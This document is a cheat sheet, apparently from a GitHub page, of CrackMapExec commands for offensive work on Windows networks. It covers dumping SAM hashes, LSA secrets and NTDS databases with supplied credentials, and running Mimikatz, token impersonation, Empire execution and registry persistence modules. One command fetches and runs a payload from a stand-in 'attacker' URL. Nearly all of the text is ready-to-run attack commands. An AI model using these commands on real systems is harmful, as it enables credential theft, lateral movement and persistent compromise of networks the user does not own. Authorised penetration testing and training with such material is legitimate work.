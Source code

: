 ### Credential Dumping

#### SAM Database
```bash
# Dump SAM hashes
crackmapexec smb 192.168.1.10 -u administrator -p password --sam

# Dump with hash authentication
crackmapexec smb 192.168.1.10 -u administrator -H hash --sam

# Dump from multiple targets
crackmapexec smb 192.168.1.0/24 -u administrator -p password --sam
```

#### LSA Secrets
```bash
# Dump LSA secrets
crackmapexec smb 192.168.1.10 -u administrator -p password --lsa

# Dump NTDS (Domain Controller)
crackmapexec smb 192.168.1.10 -u administrator -p password --ntds

# Dump with specific method
crackmapexec smb 192.168.1.10 -u admin -p pass --ntds --ntds-history --ntds-pwdLastSet
```

### Module Usage

#### Available Modules
```bash
# List all modules
crackmapexec smb --list-modules

# Get module info
crackmapexec smb -M module_name --module-info
```

#### Common Modules
```bash
# Mimikatz module
crackmapexec smb 192.168.1.10 -u admin -p pass -M mimikatz

# Token impersonation
crackmapexec smb 192.168.1.10 -u admin -p pass -M tokens

# Web delivery
crackmapexec smb 192.168.1.10 -u admin -p pass -M web_delivery -o URL=http://attacker/payload

# Empire module
crackmapexec smb 192.168.1.10 -u admin -p pass -M empire_exec -o LISTENER=test

# Persistence
crackmapexec smb 192.168.1.10 -u admin -p pass -M persistence -o METHOD=registry
```
